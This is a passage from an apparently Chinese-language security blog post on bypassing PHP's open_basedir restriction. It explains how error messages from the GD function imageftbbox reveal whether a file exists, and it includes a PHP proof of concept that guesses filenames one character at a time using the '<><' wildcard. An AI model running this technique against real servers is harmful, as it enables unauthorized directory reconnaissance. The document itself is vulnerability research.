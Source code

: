 [![PHP绕过open_basedir列目录的研究4269.png](https://www.leavesongs.com/content/uploadfile/201411/3b001416562455.png)](https://www.leavesongs.com/content/uploadfile/201411/3b001416562455.png)

这个方法有个特点，不管是否开启open_basedir都是可以枚举任意目录的。而上一个方法（realpath）只有在开启open_basedir且在open_basedir外的时候才会报错，才能列举目录。当然，没有开启open_basedir的时候也不需要这样列举目录了。

## [0x05 GD库imageftbbox/imagefttext列举目录](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html#0x05-gdimageftbboximagefttext)

GD库一般是PHP必备的扩展库之一，所以我在寻找open_basedir的时候也会看看这些有用的扩展库。

这是新方法：[](http://www.wooyun.org/bugs/wooyun-2010-083688)[http://www.wooyun.org/bugs/wooyun-2010-083688](http://www.wooyun.org/bugs/wooyun-2010-083688) 

我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。

我也修改了个简单的POC：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

同样列举一下d:/test

[![PHP绕过open_basedir列目录的研究5469.png](https://www.leavesongs.com/content/uploadfile/201411/092c1416562456.png)](https://www.leavesongs.com/content/uploadfile/201411/092c1416562456.png)

如上图，我们发现虽然“通配符”在判断是否存在的时候奏效了，但我们真正的文件名并没有显示出来，而是还是以通配符“<><”代替。

所以，这个方法报错的时候并不会把真正的路径爆出来，这也是其与realpath的最大不同之处。所以，我们只能一位一位地猜测，但总体来说，还是能够猜测出来的，只不过可能比realpath更麻烦一些罢了。

## [0x06 bindtextdomain暴力猜解目录](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html#0x06-bindtextdomain)

